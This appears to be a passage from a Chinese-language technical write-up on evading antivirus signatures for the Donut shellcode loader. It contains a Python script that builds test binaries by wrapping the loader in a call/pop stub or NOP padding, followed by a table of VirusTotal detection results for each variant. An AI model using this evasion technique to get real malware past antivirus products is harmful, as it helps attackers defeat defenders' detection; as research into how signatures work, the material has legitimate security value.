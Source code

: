 `Kaspersky`和`ZoneAlarm by Check Point`会报`HEUR:Trojan.Win64.Donut.b`

特征名称发生了变化，从`HEUR:Trojan.Win64.Donut.a`变成了`HEUR:Trojan.Win64.Donut.b`

## 新特征的免杀

### 分析新特征

根据前文的分析，编写样本生成脚本

```plain
import re
from io import BytesIO
from pathlib import Path


def get_loader():
    data = Path('loader_exe_x86.h').read_text('ascii')
    return bytes.fromhex("".join(re.findall(r'0x([0-9a-f]{2})', data)))


def build_loader(data: bytes, noeip=False):
    writer = BytesIO()
    if noeip:
        writer.write(b'\x90')  # nop
    else:
        writer.write(b'\xe8')  # call $+datalen
    writer.write(int.to_bytes(len(data), 4, 'big'))
    writer.write(data)
    if noeip:
        writer.write(b'\x90' * 4)
    else:
        writer.write(b'\x59')  # pop ecx
        writer.write(b'\x5a')  # pop edx
        writer.write(b'\x51')  # push ecx
        writer.write(b'\x52')  # push edx
    writer.write(get_loader())  # LOADER
    return writer.getvalue()


Path('test.bin').write_bytes(get_loader())
Path('test1.bin').write_bytes(build_loader(b'\x90'))
Path('test2.bin').write_bytes(build_loader(b'\x90', noeip=True))
Path('test3.bin').write_bytes(build_loader(b'\x90' * 100))
Path('test4.bin').write_bytes(build_loader(b'\x90' * 100, noeip=True))
Path('test5.bin').write_bytes(build_loader(b'\x90' * 1024 * 1024))
Path('test6.bin').write_bytes(build_loader(b'\x90' * 1024 * 1024, noeip=True))
```

测试结果如下：

| 文件名 | 是否被杀 | 说明  | 报告  |
| --- | --- | --- | --- |
| test.bin | 否   | LOADER | [报告](https://www.virustotal.com/gui/file/1cfa5ff012b9397c05d07a35fe163dad31f068a9bfd16ca30cc0aa23a8594c67) |
| test1.bin | 是   | 自定位+nop+LOADER | [报告](https://www.virustotal.com/gui/file/997a3bb6e12e95589856a9a08838aade2d71c0ce6a3791c3e133ef7e3bf11d2f) |
| test2.bin | 否   | nop+nop+LOADER | [报告](https://www.virustotal.com/gui/file/60935703f50188822ec4bd1be8f180f907e2a8d9029a9a497c840d505c76274a) |
| test3.bin | 是   | 自定位+nop\*100+LOADER | [报告](https://www.virustotal.com/gui/file/3b8daae89c40c882127fdb135f5dcb33a82a90e56e06f274c6925184cf19551a) |
| test4.bin | 否   | nop+nop\*100+LOADER | [报告](https://www.virustotal.com/gui/file/abd15a20251d4671d5a88e160539c0ce819bbbf9902c6e759342bbc311b8cf33) |
| test5.bin | 否   | nop+nop*1024*1024+LOADER | [报告](https://www.virustotal.com/gui/file/349601ed9e550a881b5fb77768661dc294309f6a54a9d197d5aa531ee7f7882d) |
| test6.bin | 否   | nop+nop*1024*1024+LOADER | [报告](https://www.virustotal.com/gui/file/af1747277fe91e4a40352358d59b5e6bc60e67870f42f091cfcb8304ca748e4f) |

